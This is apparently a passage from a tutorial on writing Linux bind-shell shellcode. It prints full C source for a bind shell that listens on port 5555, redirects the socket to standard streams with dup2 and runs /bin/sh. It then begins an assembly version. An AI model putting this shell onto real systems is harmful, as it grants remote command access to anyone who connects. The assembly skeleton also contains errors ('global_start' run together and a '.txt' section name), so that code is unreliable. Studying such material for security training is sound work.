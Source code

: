 ```c
#include <stdio.h>
#include <strings.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(void) {

    // This is our first syscall, the socket() call. 
    int listen_sock = socket(AF_INET, SOCK_STREAM, 0);

    // It looks like here we're building a 'struct' which consists of AF_INET, the interface we want to listen on (all), and a port number to bind on. This entire entity will be referenced in arguments for the next syscall: bind()    
    struct sockaddr_in server_addr;
    server_addr.sin_family = AF_INET;           
    server_addr.sin_addr.s_addr = INADDR_ANY;  
    server_addr.sin_port = htons(5555);        

    // Our second syscall, and perhaps the most complicated: bind() 
    bind(listen_sock, (struct sockaddr *)&server_addr, sizeof(server_addr));

    // Our third syscall is listen()
    listen(listen_sock, 0);

    // Our fourth syscall is accept() 
    int conn_sock = accept(listen_sock, NULL, NULL);

    // Our fifth syscall, dup2(), is used 3 times
    dup2(conn_sock, 0);
    dup2(conn_sock, 1);
    dup2(conn_sock, 2);

    // Our final syscall is execve(), which runs a program fed to it as a string
    execve("/bin/sh", NULL, NULL);
}
```
Now that that's settled, it's become apparent we need to execute 6 syscalls in our assembly code:
+ socket
+ bind
+ listen
+ accept
+ dup2
+ execve

## Building Our Assembly Code

### Assembly Skeleton Code
```nasm
global_start

section .txt
_start:
```
The first thing we want to do is to clear out the registers we're going to use immediately. How do we know what registers we want to use? You can think of your syscall as something like an argv[0] in a command line program. So that's always going to correspond with the first register, EAX. Subsequent arguments will follow sequentially: argv[1] will correspond to EBX, argv[2] will correspond to ECX, etc.
